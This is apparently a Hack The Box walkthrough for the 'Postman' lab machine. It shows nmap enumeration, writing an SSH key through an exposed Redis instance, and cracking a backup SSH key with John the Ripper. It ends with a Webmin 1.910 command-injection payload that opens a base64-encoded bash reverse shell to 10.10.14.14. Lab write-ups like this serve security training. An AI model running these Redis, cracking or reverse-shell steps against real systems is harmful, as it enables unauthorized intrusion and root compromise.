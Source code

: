 ![](http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-09-25-at-11.33.14-AM.png)

IP: 10.10.10.160

More information:  
DNS name: Postman.htb  
Server exposed on ssl cert: Webmin Webserver on Postman  
username leaked on ssl cert: root@Postman.htb  
REMEMBER THIS: Webmin uses local authentication so it is very difficult to decipher the creds, so you should most probably leave that port and move onto some other port as such.

## Enumeration

Let’s start off with a basic nmap scan: `sudo nmap -sC -sV -O -p- -oA nmap/postman 10.10.10.160`, we get,

Ports open:

- 22/ssh
- 80/http
- 10000/webmin/http
- 6379/redis

Port 22:  
Nothing interesting

Port 80:  
It was basically a decoy and didn’t have anything interesting.

Port 10000:  
Webmin 1.910 – Required creds to get in, default creds didn’t work. Webmin mostly uses local authentication so its difficult to get in with default creds or by bruteforcing.

Webmin page:

![](http://vedanttare.com/wp-content/uploads/2022/04/webmin-page.png)

Port 6379 (redis):

This port is basically a data structure store or basically a database and can be accessed through the command line. Some redis commands are:  
`INFO (imp information)<br></br>CONFIG GET * (gives you the configuration of some things)`  
Dumping the database:  
`SELECT 0 or 1 (depending on the numbering of the database)<br></br>KEYS *<br></br>GET`

Using ssh:

When we used CONFIG GET \* we can find the home of the redis user (which is usually /var/lib/redis), and after knowing this we can write the authenticated\_users file to access via ssh with the user creds. Also check any other location where you have writable permissions. Generate a public-private key pair on your computer: `ssh-keygen -t rsa`

Write the public key to a file: `(echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt`

Import the file into redis: `cat foo.txt | redis-cli -h 10.85.0.52 -x set crackit`

Now save the public key to the authorized\_keys file on redis server using redis-cli:  
`redis-cli -h 10.10.10.160`

`config set dir /var/lib/redis/.ssh/<br></br>OK`

`config set dbfilename “authorized_keys”<br></br>OK`

`save<br></br>OK`

## Exploitation

Logging into the machine using ssh with private key that we generated earlier:  
`ssh -i id_rsa redis@10.10.10.160`

We see that we are user redis and we need to still get a user and then root. After running LinEnum.sh we find out that there is a id\_rsa.bak which is a backup private key file.

![](http://vedanttare.com/wp-content/uploads/2022/04/bak-file-linenum.png)

Now, we check the contents of the file and see that it is an encrypted private ssh key.

![](http://vedanttare.com/wp-content/uploads/2022/04/ssh-key.png)

We now can crack this encrypted key by using johntheripper tool.

`kali@starscorp1o:~/…/retired/postman$ python /usr/share/john/ssh2john.py id_rsa > id_rsa_new`

Then,

`kali@starscorp1o:~/…/retired/postman$ john id_rsa_new --wordlist=/home/kali/rockyou.txt<br></br>Using default input encoding: UTF-8<br></br>Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])<br></br>Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes<br></br>Cost 2 (iteration count) is 2 for all loaded hashes<br></br>Note: This format may emit false positives, so it will keep trying even after<br></br>finding a possible candidate.<br></br>Press 'q' or Ctrl-C to abort, almost any other key for status<br></br>computer2008 (id_rsa)<br></br>1g 0:00:00:33 DONE (2020-12-24 01:05) 0.03010g/s 431718p/s 431718c/s 431718C/s *7¡Vamos!<br></br>Session completed`

We have found the password which is: `computer2008`

If we directly try to ssh with the password it doesn’t work. If we try to use the key and then ssh with it that also doesn’t work. If we try and su to the user: `su Matt` – This works!!!!

![](http://vedanttare.com/wp-content/uploads/2022/04/the-user-flag.png)

Now we run Linenum.sh again, but don’t find anything interesting as such.

Important link for the exploit:

https://github.com/KyleV98/Webmin-1.910-Exploit/blob/master/Webmin%201.910%20-%20Remote%20Code%20Execution%20using%20BurpSuite#L45

## Privilege Escalation

After running LinEnum.sh we don’t get anything interesting as such. Now if we recall we know that there is port 10000 which is open and has webmin running on it. If we try and use the creds for Matt, we see that we get logged in!!!!

For root, after trying multiple times, we finally get a payload to work.

`‘bash -i >& dev/tcp/10.10.14.14/4445 0>&1’` –&gt; base64 encode this and use it as the payload.

After reading the exploit in which metasploit was used we could see that a POST request was sent to /package-updates/update.cgi and then we can use this to inject our payload in the u parameter or field.

![](http://vedanttare.com/wp-content/uploads/2022/04/burp-postman.png)

Payload: `u=acl%2Fapt&u=+|+bash+-c+"{echo,- n,YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xNC80NDQ1IDA%2bJjE%3d}|{base64,-d}|{bash,-i}"`

`u=acl%2Fapt` –&gt; This is very important, without this line it won’t work at all!!!!

`bash -i >& dev/tcp/10.10.14.14/4445 0>&1 ---→ Base64 encoded --→ YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNC80NDQ1IDA+JjE= ---→ URL encoded ---→ YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xNC80NDQ1IDA%2bJjE%3d`

Then we setup a reverse listener and get ROOT!!!

![](http://vedanttare.com/wp-content/uploads/2022/04/root-from-listener.png)

Now, we can grab the root flag,

![](http://vedanttare.com/wp-content/uploads/2022/04/the-root-flag.png)
